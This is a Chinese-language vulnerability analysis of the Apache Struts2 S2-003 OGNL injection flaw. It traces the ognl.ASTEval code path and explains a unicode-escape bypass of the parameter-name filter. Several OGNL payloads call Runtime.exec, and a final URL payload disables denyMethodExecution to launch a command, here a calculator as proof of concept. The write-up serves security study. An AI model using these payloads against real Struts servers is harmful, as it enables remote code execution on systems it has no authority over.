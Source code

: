 # S2-003漏洞分析

文章里面多了很多我自己的见解没有单纯去copy

## 注意

强烈建议将Tomcat使用Tomcat7以下，这里我用的Tomcat6.0.20，高版本出现特殊符号会报错(4XX)

## 漏洞影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

漏洞触发形式为 `(one)(two)` 表达形式，属于 `ASTEval` 类型，一些详情可以看https://xz.aliyun.com/t/111，属于是不想看了

我们可以看看`ognl.ASTEval#getValueBody`的执行流程

![](img/1.png)

1. 取 one的内容，调用 `getValue()` 方法计算后赋值到 expr 
2. 取 two的内容，赋值给 source
3. 判断 expr 是否为 node 类型，是的话直接转型，否则调用 `Ognl.parseExpression()` 进行解析强转为 node 类型
4. 将 source 放入 root 中并调用 node 的 `setValue()` 方法进行解析

同时如果one 的结果是一个 AST，OGNL 将简单的执行解释它，否则 OGNL 将这个对象转换为字符串形式然后解析这个字符串

学习su18师傅的比如这样

```java
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```

但是同样的payload放在`setValue`就不行了

![](img/2.png)

这里不能触发原因是这里，而我们之前的`ognl.ASTChain#getValueBody`是`super.children.length - 1`

![](img/4.png)

如果我这里手动改为-1的值，确实可以成功触发的

![](img/5.png)

回到这个话题，目的是通过这个setValue去解决，可是为什么报错主要是`ASTMethod`没有`setValueBody`导致的

![](img/6.png)

但是我们仔细看，在之前`ognl.ASTEval#setValueBody`，可以在这里触发`getValue`

我们之前的payload

```java
Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')");
```

到了这里就是

![](img/7.png)

那如果我们能到这里构造就触发那不就行了吗

![](img/3.png)

可以看到如果在不是常量就会去调用`getValueBody`

![](img/8.png)

可以

```java
Object o = Ognl.parseExpression("(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))('')");
```

或者

```java
 Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')('y4tacker')");
```

都可以成功弹出计算器这时候高高兴兴拿着payload去打

![](img/9.png)

这里首先遇到的第一个坑是`acceptableName`其实是一个过滤

```java
    protected boolean acceptableName(String name) {
        return name.indexOf(61) == -1 && name.indexOf(44) == -1 && name.indexOf(35) == -1 && name.indexOf(58) == -1 && !this.isExcluded(name);
    }
```

不能出现这些字符，绕过方式很简单，这里在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制

因此payload改为

```java
('@java.lang.Runtime@'+'getRuntime().exec(\u0023aa)')(\u0023aa\u003d'open\u0020-a\u0020Calculator.app')('y4tacker')
```

这里调用静态函数受`xwork.MethodAccessor.denyMethodExecution`属性影响

![](img/10.png)

在这之前就调用了，所以要想执行命令首先得要把这个属性设置为false

![](img/11.png)

得到最终payload了

```java
http://127.0.0.1:8080/login.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

这里你可能会好奇为什么我的payload这个`@`符号明明没有在被过滤但是也用了`unicode`编码，这里的迭代器是来源于`TreeMap`是有序的

![](img/12.png)

## 参考文章

https://xz.aliyun.com/t/111

https://su18.org/post/struts2-1/#s2-003
